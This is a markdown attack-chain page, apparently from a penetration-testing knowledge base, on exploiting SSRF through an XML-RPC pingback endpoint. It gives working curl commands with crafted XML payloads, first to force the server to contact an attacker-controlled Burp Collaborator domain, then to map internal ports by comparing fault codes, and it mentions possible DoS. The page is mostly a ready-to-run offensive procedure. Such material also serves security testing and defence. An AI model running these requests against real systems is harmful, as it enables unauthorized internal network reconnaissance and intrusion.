

# SSRF Exploitation via XML-RPC Pingback for Internal Network Scanning

Multi-stage attack chain demonstrating exploitation of SSRF in a web application's XML-RPC pingback endpoint to scan internal networks, discover backend services, and potentially cause DoS.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Collaborator]]
- curl or similar HTTP client

### Target Environment

- Web application with XML-RPC pingback endpoint (e.g., ASP.NET on IIS 8.5)
- Network access to the target domain
- No authentication required for the endpoint

### Initial Access Requirements

- Public-facing web server
- Ability to send POST requests to /xmlrpc/pingback/

## Detailed Attack Procedures

### Step 1: Trigger SSRF with Arbitrary URL
procedure: [[procedures/Craft-XML-RPC-Pingback-Request-for-SSRF]]

**Objective**: Send a crafted XML-RPC request to force the server to make an outgoing request to a controlled domain, confirming SSRF and enabling out-of-band detection.

**Instructions**: Use [[commands/curl-xmlrpc-ssrf-trigger]] to send a POST request with an XML payload specifying your Burp Collaborator domain as the target URL:

```bash
curl -X POST https://target.com/xmlrpc/pingback/ \
  -H "Content-Type: text/xml" \
  -d '<?xml version="1.0"?><methodCall><methodName>pingback.ping</methodName><params><param><value><string>http://your-collaborator.burpcollaborator.net/</string></value></param><param><value><string>https://target.com/web/guest/home/</string></value></param></params></methodCall>'
```

Monitor Burp Collaborator for DNS interactions from the target server.

**Expected Output**: HTTP 200 response from the server; DNS request logged in Burp Collaborator.

**Success Indicators**:
- Outgoing DNS request to collaborator domain
- No immediate error in server response

### Step 2: Port Scanning via Error Response Differentiation
procedure: [[procedures/Test-SSRF-with-Error-Responses-for-Port-Scanning]]

**Objective**: Exploit differing error codes from the server to infer port states on target hosts, enabling blind port scanning of internal networks.

**Instructions**: Use [[commands/curl-xmlrpc-error-test]] to send requests to non-existent or controlled ports on internal/external IPs, observing fault codes:

```bash
curl -X POST https://target.com/xmlrpc/pingback/ \
  -H "Content-Type: text/xml" \
  -d '<?xml version="1.0"?><methodCall><methodName>pingback.ping</methodName><params><param><value><string>http://non.existent:80/</string></value></param><param><value><string>https://target.com/web/guest/home/</string></value></param></params></methodCall>'
```

Compare responses: faultCode 16 for inaccessible URIs vs. faultCode 17 for non-existent targets.

**Expected Output**: XML fault responses with codes 16 or 17.

**Success Indicators**:
- Different fault codes based on port state
- Ability to map open/closed ports on scanned hosts

## Attack Chain Summary

### Key Achievements

1. Confirmed SSRF via out-of-band DNS interaction
2. Demonstrated port scanning capability using error differentiation
3. Highlighted potential for internal service discovery and DoS

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Active Scanning]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Reconnaissance]]

---
*Last updated: 2023-10-01T00:00:00Z*
